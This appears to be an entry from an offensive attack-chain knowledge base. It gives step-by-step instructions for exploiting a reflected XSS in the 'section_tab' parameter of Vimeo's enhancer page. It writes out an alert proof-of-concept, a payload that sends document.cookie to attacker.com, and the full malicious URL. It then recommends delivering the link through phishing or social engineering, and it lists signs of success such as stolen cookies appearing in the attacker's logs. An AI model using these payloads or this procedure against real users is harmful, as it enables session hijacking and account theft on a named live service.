

---

# Reflected XSS in Vimeo Enhancer Page to Steal Session Cookies

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Web-Browser]]

### Target Environment

- Web platform
- Access to Vimeo's enhancer page (http://vimeo.com/enhancer)
- No authentication required for the vulnerable endpoint

### Initial Access Requirements

- Victim must open the malicious URL in their browser while authenticated to Vimeo
- Network access to the internet
- No prior access needed beyond tricking the victim into clicking the link

## Detailed Attack Procedures

### Step 1: Construct and Deliver Malicious URL
procedure: [[procedures/Exploit-Reflected-XSS-in-Vimeo-Enhancer]]

**Objective**: Inject a JavaScript payload via the 'section_tab' parameter to execute arbitrary code in the victim's browser, stealing sensitive data like cookies.

**Instructions**: Construct the malicious URL by appending a payload to the 'section_tab' parameter. Use a simple alert for proof-of-concept or a more advanced payload to exfiltrate data. Open the URL in a web browser while logged into Vimeo to simulate victim execution.

Example PoC URL construction:

```url
http://vimeo.com/enhancer?section_tab=';alert(1);//
```

For data theft, replace alert with a payload like:

```javascript
document.location='http://attacker.com/steal?cookie='+document.cookie;
```

Full malicious URL:

```url
http://vimeo.com/enhancer?section_tab=';document.location='http://attacker.com/steal?cookie='+document.cookie;//
```

Deliver this URL via phishing email, social engineering, or malicious link to entice the victim to click it while authenticated.

**Expected Output**: Upon opening, the page reflects the payload, executing the JavaScript. An alert pops up for PoC, or data is sent to the attacker's server for theft payloads.

**Success Indicators**:
- JavaScript alert box appears confirming execution
- Network request to attacker's server with stolen cookies (check attacker logs)
- Browser developer tools show injected script in the HTML source

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of arbitrary JavaScript via reflected XSS
2. Potential theft of session cookies and tokens from authenticated users
3. Demonstration of high-impact data exfiltration with minimal effort

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
